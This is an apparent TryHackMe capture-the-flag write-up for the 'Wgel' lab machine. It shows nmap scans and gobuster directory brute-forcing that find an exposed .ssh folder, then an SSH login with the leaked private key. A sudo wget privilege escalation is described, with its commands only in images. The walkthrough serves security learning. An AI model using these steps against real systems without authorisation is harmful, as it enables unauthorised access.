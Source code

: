 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-1.png)
I found a ssh folder which containes a ssh key which i used to login via ssh, annd finally i take advantage of the sudo rights on the wget command.

Nmap scan
```text
nmap -sS -T 4 -p- 10.10.144.149
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 04:55 EDT
Nmap scan report for 10.10.122.219
Host is up (0.068s latency).
Not shown: 65136 closed ports, 397 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The detailed scan
```text
nmap -sV -sC  -T 4 -p22,80 10.10.144.149
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 04:59 EDT
Nmap scan report for 10.10.122.219
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80 is this ubuntu's default page.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-2.png)

The source has this comment with an username which will be useful in the future.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-3.png)

I got stuck, so i wil bruteforce directories.

```text
 gobuster dir -u http://10.10.144.149 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.144.149
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/03 05:30:48 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/sitemap (Status: 301)
```


The sitemap is a basic template, but it may hold other interesting files.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-4.png)


The .ssh folder seems promising.
```text
 gobuster dir -u http://10.10.144.149/sitemap/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.144.149/sitemap/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/03 05:41:55 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
```
  
Here is the rsa key that would be useful when login via ssh.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-5.png)

To login via ssh using a private key, the permissions of the file needs to be set.
```text
chmod 600 id_rsa
```
ssh -i id_rsa jessie@10.10.144.149

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-6.png)

After a bit of searching i found the user flag in the Documents folder.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-7.png)

Let's see what sudo rights has jessie.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-8.png)

This privesc is a bit different from what i am used to, but it was welcomed as i learned something new.First, start a listener on port 80 and redirect any output to a file.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-9.png)

Second use the command below.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-10.png)

Lastly, read the flag.  

#### Referrences
https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/
